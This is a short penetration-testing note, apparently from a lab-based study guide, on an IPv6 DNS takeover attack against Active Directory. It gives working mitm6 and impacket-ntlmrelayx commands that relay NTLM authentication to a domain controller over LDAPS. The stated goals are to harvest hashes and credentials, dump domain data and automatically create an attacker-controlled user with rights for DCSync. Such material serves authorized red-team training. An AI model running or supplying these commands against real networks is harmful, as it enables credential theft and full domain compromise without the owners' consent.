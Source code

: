 -- -
IPv6 is generally setup for every computer on the network, but since no one really uses it, it is not managed, maintained or used by anyone especially the SOC. So if you set yourself up as the DNS authority for IPv6 in the network, you can place yourself between users and the DC, allowing you to grab hashes and credentials from requests to authenticate to the DC. 
### Considerations
Only do this in short 5-10 minute bursts! You can easily break stuff and hold up the network this way. You can mimic DNS operations for simple stuff but the longer you stay up, the more traffic you get and the more likely you are to break normal operations, i.e. don't DoS your clients.
### Steps
1. Setup Relay
2. Setup mitm6
3. wait
### Setup Relay
Start running your NTLM Relay
```bash
impacket-ntlmrelayx -6 -t ldaps://<dc ip> -wh <wpad name>.<domain> -l <loot folder>
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```
### Setup mitm6
```bash
sudo mitm6 -d <domain>
sudo mitm6 -d marvel.local
```
### Waiting
Again, only do this for a few minutes, but you should (hopefully) get files in the loot folder you specified, in the example `lootme`. In this folder, you will have a few different files that show enumeration data taken from the attack. Can be domain accounts with descriptions which can have credentials in them, policies, groups, etc. 

If an admin logs in, you may get this attack to automatically create a user for you with specific ACLs attached to it that will allow juicy attacks like #DCSync. 